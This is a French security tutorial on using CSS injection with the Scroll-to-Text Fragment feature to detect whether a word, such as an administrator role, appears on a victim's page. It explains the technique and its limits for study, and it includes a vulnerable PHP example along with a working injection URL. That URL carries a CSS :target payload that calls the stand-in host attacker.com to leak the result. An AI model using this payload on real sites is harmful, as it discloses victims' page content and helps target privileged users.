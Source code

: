 ```yaml
---
description: 16 Décembre 2022
---
```


# Les injections CSS - Scroll-to-Text Fragment

> Cette exploitation d'une injection CSS va permettre à l'attaquant de savoir si l'occurrence d'un mot est présente ou non sur la page ciblée. Cela peut être utile pour identifier, par exemple, si la victime est connectée en tant qu'administrateur ou non.

## Scroll-to-Text Fragment

Un attaquant peut s'appuyer sur la fonctionnalité de Scroll-to-Text Fragment afin d'exploiter une injection CSS dans l'objectif de connaitre la présence d'un mot ou d'une phrase dans la page Web de sa victime. Les scénarios d'utilisation sont très nombreux, mais il est possible de prendre le cas d'un attaquant souhaitant connaitre le rôle de la victime.

{% hint style="info" %}
La fonctionnalité de lien vers un fragment de texte (Scroll-to-Text Fragment) permet à un utilisateur de créer un lien vers une partie spécifique d'une page en prenant comme référence un texte fournit dans l'URL. Une fois la page chargée, le navigateur mettra le texte recherché en surbrillance et fera défiler l'écran jusqu'à sa position.



La fonctionnalité Scroll-to-Text Fragment n'étant pas un standard, elle n'est donc pas implémentée sur Firefox.
{% endhint %}

En admettant la page vulnérable suivante :&#x20;

{% code overflow="wrap" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>CSS Injection</title>
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
    </style>
  </head>
  <body>
    <h1>Injection CSS - utilisation de la fonctionnalité Scroll-to-Text Fragment</h1>
    <div>
      <p>Connecté en tant que <?php echo $role ?></p>
    </div>
  </body>
</html>
```
{% endcode %}

La variable PHP `$role` contient le rôle du visiteur authentifié. Elle peut contenir la valeur "Administrateur" ou "Utilisateur". L'attaquant souhaite tout d'abord déterminer si le visiteur de la page est bien l'administrateur du site afin, ensuite, d'effectuer une attaque plus poussée contre lui ; c'est ici que la fonctionnalité Scroll-to-Text Fragment va lui être utile.

{% hint style="info" %}
L'article original concernant cette exploitation est disponible ici : [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)
{% endhint %}

### Text Fragments

Un fragment de texte dans une URL se compose du signe `#` suivi de `:~:text=` et se termine par le texte ciblé (encodé en URL) :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=texte-ciblé
```

En reprenant le code de l'exemple précédent, il est donc possible de mettre en surbrillance le mot ciblé comme ceci :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=Administrateur
```

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Ou alors une phrase entière :&#x20;

<figure><img src="../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

Il est également possible de surligner tout un paragraphe en spécifiant le texte du début (`textStart`) et le texte de fin (`textEnd`) séparés par une virgule :&#x20;

<figure><img src="../../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

Ou encore d'ajouter des suffixes et des préfixes :&#x20;

```html
#:~:text=[prefix-,]textStart[,textEnd][,-suffix]
```

Une dernière possibilité pouvant être utile est de pouvoir effectuer une multi sélection grâce au caractère `&`. Par exemple :&#x20;

<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

### La pseudo-class :target&#x20;

L'injection CSS et l'utilisation de la pseudo-class `:target`, va permettre de prévenir l'attaquant dans le cas ou le texte recherché a bien été trouvé :&#x20;

{% code overflow="wrap" %}
```html
<style>
  :target::before {
    content:url(http://attacker.com/isAdmin);
  }
</style>
```
{% endcode %}

Soit l'injection suivante :&#x20;

{% code overflow="wrap" %}
```
http://vulnerable.com/scroll-to-text.php?color=black;}:target::before{content:url(http://attacker.com/isAdmin);#:~:text=Administrateur
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

L'attaque ne passera pas inaperçu pour la victime puisque le texte ciblé sera souligné et un défilement sera effectué si nécessaire :&#x20;

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

### Limites de l'attaque

Outre le fait de pouvoir injecter du CSS, l'attaque possède quelques limites. Comme déjà évoqué, elle est assez voyante pour la victime par le surlignage et le défilement.

{% hint style="info" %}
A noter que si le serveur vulnérable présente l'entête HTTP `Document-Policy` avec la valeur `force-load-at-top` alors, le défilement n'aura pas lieu, ce qui peut être un avantage pour l'attaquant.
{% endhint %}

De plus, la fonctionnalité s'active seulement lors d'une navigation vers une page différente, c'est à dire que rafraichir la page ou ouvrir un lien vers la même page ne déclenchera pas l'attaque. Exit également l'iframing de la page vulnérable, la fonctionnalité ne se déclenchera pas dans ce contexte non plus.

### Automatisation

Un PoC est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/les-injections-css-scroll-to-text-fragment).

```php
<h1>Récupération de la présence de l'occurrence d'un mot via fonctionnalité de Scroll-to-Text Fragment</h1>
<div>
    <?php echo '<p>Connecté en tant que ' . $_SESSION['role'] . '</p>'; ?>
</div>
<a href="logout.php">Se déconnecter</a>
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Références

* [https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)
* [https://x-c3ll.github.io/posts/CSS-Injection-Primitives/](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
* [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)
